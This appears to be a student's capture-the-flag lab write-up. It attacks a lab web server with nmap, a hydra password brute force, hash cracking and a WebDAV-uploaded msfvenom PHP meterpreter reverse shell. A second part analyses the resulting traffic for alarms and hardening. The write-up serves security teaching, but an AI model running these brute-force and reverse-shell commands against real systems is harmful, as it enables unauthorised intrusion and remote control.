### Presentation

PLACEHOLDER LINK

### Day 1 Deliverables

Complete the following to find the flag:

- Discover the IP address of the Linux web server.
> Run ```nmap 192.168.1.0/24```



- Locate the hidden directory on the web server.
> Navigate to http://192.168.1.105:80, explored the server contents with a browser.




- Brute force the password for the hidden directory using the hydra command:
> Find the wordlist and unzip the package.




> Ran Hydra with the following command ```hydra -l ashton -P rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder```, logged into the website.




- Break the hashed password with the Crack Station website or John the Ripper.
> Read the contents of the secret folder and cracked the HASH password with John the Ripper. The cracked password is ```linux4u```.




- Connect to the server via WebDav.
> Connected to the WebDav service at ```192.168.1.105/webdav```.



- Upload a PHP reverse shell payload.
> Created the payload with ```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > meterpreter.php``` followed by uploading it with ```cadaver http://192.168.1.105/webdav``` and ```put meterpreter.php```.





- Execute payload that you uploaded to the site to open up a meterpreter session.
> Payload executed by going to http://192.168.1.105/webdav/meterpreter.php.



- Find and capture the flag.
> Ran ```locate flag```, followed by ```head /flag.txt```




### Day 2 Deliverables

#### Identify the offensive traffic.

* What time did the port scan occur?

> Port scan from 192.168.1.90 started around 14:42 on May 9th, 2022.

* How many packets were sent, and from which IP?

> 166,131 packets were sent from 192.168.1.90

* What indicates that this was a port scan?

> SYN scans from 192.168.1.90 to multiple ports on 192.168.1.105 through ICMP Echo for host detection.


1. Identify the offensive traffic.
   - Identify the traffic between your machine and the web machine:
     - When did the interaction occur?
     - What responses did the victim send back?
     - What data is concerning from the Blue Team perspective?
#### Find the request for the hidden directory.

* What time did the request occur? How many requests were made?

> The request occurred at 15:07 on May 9th, 2022. There were 16,297 requests were made.


* Which files were requested? What did they contain?

> The file ```/connect_to_corp_server``` was accessed. It contains instructions how to access web dav server, including MD5 Hashed password.


2. Find the request for the hidden directory.
   - In your attack, you found a secret folder. Let's look at that interaction between these two machines.
     - How many requests were made to this directory? At what time and from which IP address(es)?
     - Which files were requested? What information did they contain?
     - What kind of alarm would you set to detect this behavior in the future?
     - Identify at least one way to harden the vulnerable machine that would mitigate this attack.
#### Identify the brute force attack.

* How many requests were made in the attack?

> There were 16,297 requests made during the attack.


* How many requests had been made before the attacker discovered the password?

> 16,296 attempts were made, resulting in HTTP Response code 401. The 16,297th attempt, was successful with HTTP Response code 301.


3. Identify the brute force attack.
   - After identifying the hidden directory, you used Hydra to brute-force the target server. Answer the following questions:
     - Can you identify packets specifically from Hydra?
     - How many requests were made in the brute-force attack?
     - How many requests had the attacker made before discovering the correct password in this one?
     - What kind of alarm would you set to detect this behavior in the future and at what threshold(s)?
     - Identify at least one way to harden the vulnerable machine that would mitigate this attack.
#### Find the WebDav connection.

* How many requests were made to this directory?

> There were 18 requests made to ```/webdav``` directory.


* Which files were requested?

> The file requested was called ```meterpreter.php```.


4. Find the WebDav connection.
   - Use your dashboard to answer the following questions:
     - How many requests were made to this directory? 
     - Which file(s) were requested?
     - What kind of alarm would you set to detect such access in the future?
     - Identify at least one way to harden the vulnerable machine that would mitigate this attack.

5. Identify the reverse shell and meterpreter traffic.
   - To finish off the attack, you uploaded a PHP reverse shell and started a meterpreter shell session. Answer the following questions:
     - Can you identify traffic from the meterpreter session?
     - What kinds of alarms would you set to detect this behavior in the future?
     - Identify at least one way to harden the vulnerable machine that would mitigate this attack.

